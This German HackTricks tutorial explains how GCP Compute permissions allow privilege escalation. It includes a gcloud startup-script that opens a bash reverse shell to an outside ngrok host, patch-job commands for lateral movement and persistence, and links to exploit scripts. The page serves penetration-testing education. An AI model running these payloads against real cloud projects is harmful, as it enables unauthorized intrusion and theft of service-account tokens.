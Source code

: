 # GCP - Berechtigungserhöhung für Compute

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>

## Compute

Für weitere Informationen zu Compute und VPC (Netzwerk) in GCP überprüfen Sie:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Beachten Sie, dass für alle Berechtigungserhöhungsangriffe, die erfordern, dass Sie die Metadaten der Instanz ändern (wie das Hinzufügen neuer Benutzer und SSH-Schlüssel), **`actAs`-Berechtigungen über den an die Instanz angehängten SA erforderlich sind**, auch wenn der SA bereits angehängt ist!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Mit dieser Berechtigung können Sie die **Metadaten**-Informationen einer **Instanz ändern** und die **autorisierten Schlüssel eines Benutzers** ändern oder einen **neuen Benutzer mit sudo-Berechtigungen erstellen**. Dadurch können Sie über SSH auf eine beliebige VM-Instanz zugreifen und das GCP-Servicekonto stehlen, mit dem die Instanz ausgeführt wird.\
Einschränkungen:

* Beachten Sie, dass GCP-Servicekonten, die standardmäßig in VM-Instanzen ausgeführt werden, einen **sehr begrenzten Umfang** haben
* Sie müssen in der Lage sein, den SSH-Server zu kontaktieren, um sich anzumelden

Für weitere Informationen darüber, wie Sie diese Berechtigung ausnutzen können, überprüfen Sie:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Sie könnten diesen Angriff auch ausführen, indem Sie ein neues Startskript hinzufügen und die Instanz neu starten:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Diese Berechtigung gibt **die gleichen Privilegien wie die vorherige Berechtigung**, aber nur für bestimmte Instanzen anstelle des gesamten Projekts. Es gelten **die gleichen Exploits und Einschränkungen wie für den vorherigen Abschnitt**.

### `compute.instances.setIamPolicy`

Diese Art von Berechtigung ermöglicht es Ihnen, sich selbst eine Rolle mit den vorherigen Berechtigungen zu **erteilen und Privilegien zu eskalieren, indem Sie sie missbrauchen**.

### **`compute.instances.osLogin`**

Wenn **OSLogin auf der Instanz aktiviert ist**, können Sie mit dieser Berechtigung einfach **`gcloud compute ssh [INSTANZ]`** ausführen und sich mit der Instanz verbinden. Sie **haben keine Root-Rechte** innerhalb der Instanz.

### **`compute.instances.osAdminLogin`**

Wenn **OSLogin auf der Instanz aktiviert ist**, können Sie mit dieser Berechtigung einfach **`gcloud compute ssh [INSTANZ]`** ausführen und sich mit der Instanz verbinden. Sie haben **Root-Rechte** innerhalb der Instanz.

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Es ist möglich, **eine virtuelle Maschine mit einem zugewiesenen Service Account zu erstellen und das Token des Service Accounts zu stehlen**, indem auf die Metadaten zugegriffen wird, um Privilegien darauf zu eskalieren.

Das Exploit-Skript für diese Methode finden Sie [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Wenn Sie die Berechtigungen **`osconfig.patchDeployments.create`** oder **`osconfig.patchJobs.exec`** haben, können Sie einen [**Patch-Job oder ein Deployment**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) erstellen. Dadurch können Sie seitlich in der Umgebung bewegen und Codeausführung auf allen Compute-Instanzen innerhalb eines Projekts erlangen.

Wenn Sie dies manuell ausnutzen möchten, müssen Sie entweder einen [Patch-Job](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) oder ein [Deployment](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json) für einen Patch-Job erstellen:

`gcloud compute os-config patch-jobs execute --file=patch.json`

Um ein Patch-Deployment bereitzustellen:

`gcloud compute os-config patch-deployments create my-update --file=patch.json`

Automatisierte Tools wie [patchy](https://github.com/rek7/patchy) existieren, um laxen Berechtigungen zu erkennen und automatisch seitlich zu bewegen.

**Sie können dies auch für Persistenz missbrauchen.**

### `compute.machineImages.setIamPolicy`

**Erteilen Sie sich zusätzliche Berechtigungen** für Compute-Images.

### `compute.snapshots.setIamPolicy`

**Erteilen Sie sich zusätzliche Berechtigungen** für ein Disk-Snapshot.

### `compute.disks.setIamPolicy`

**Erteilen Sie sich zusätzliche Berechtigungen** für eine Festplatte.

### Umgehung von Zugriffsberechtigungen

Unter folgendem Link finden Sie einige [**Ideen, um Zugriffsberechtigungen zu umgehen**](../).

### Lokale Privilegieneskalation in GCP Compute-Instanz

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Referenzen

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks als PDF herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositories einreichen.

</details>
